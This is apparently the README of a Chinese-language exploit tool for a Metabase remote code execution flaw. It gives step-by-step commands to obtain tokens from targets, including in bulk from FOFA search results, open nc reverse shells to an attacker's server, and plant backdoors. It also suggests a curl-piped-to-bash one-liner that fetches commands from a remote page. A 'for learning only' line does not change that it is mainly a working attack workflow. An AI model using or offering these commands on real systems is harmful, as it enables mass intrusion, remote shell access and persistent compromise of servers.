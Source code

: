 # metabase_exp
metabase rce
## 仅供学习使用
漏洞利用过程为：获取token->测试token是否可用->尝试nc反弹->尝试自定义命令留后门


获取token

python3 metabase_exp.py poc -u xxx.com

批量获取token    fofa搜的json可以直接用，其他的需要手工改一下host定位字段

python3  metabase_exp.py poc -f 文件名.json -o 输出文件名.json



尝试nc反弹

python3 metabase_exp.py exp -u xxx.com -t xxx -i 服务器ip -p 服务器端口

nc批量弹，虽然nc只能上线一个但是token不一定每个都能用，所以批量上方便点哪台弹上打哪台，然后把批量文件中打进去的哪台以上都删掉，或者多打几遍有脏东西的有的时候就是会莫名其妙上线不了

python3 metabase_exp.py exp -f poc生成的json文件 -i 服务器ip -p 服务器端口



尝试自定义命令留后门
我的思路是curl -A O  -o- -L http://xxx/a.html | bash -s 直接把要执行的命令写a.html里面，payload写太长会出问题不能执行

python3 metabase_exp.py backdoor  -f/-u -t  json文件/ip token -payload 你的payload




太菜了写的不是很好啊哈哈


我的库版本
certifi            2023.5.7

charset-normalizer 3.2.0

pip                23.2.1

pycryptodomex      3.14.0

requests           2.31.0

setuptools         67.6.1

urllib3            2.0.3

wheel              0.40.0
版本问题没试过
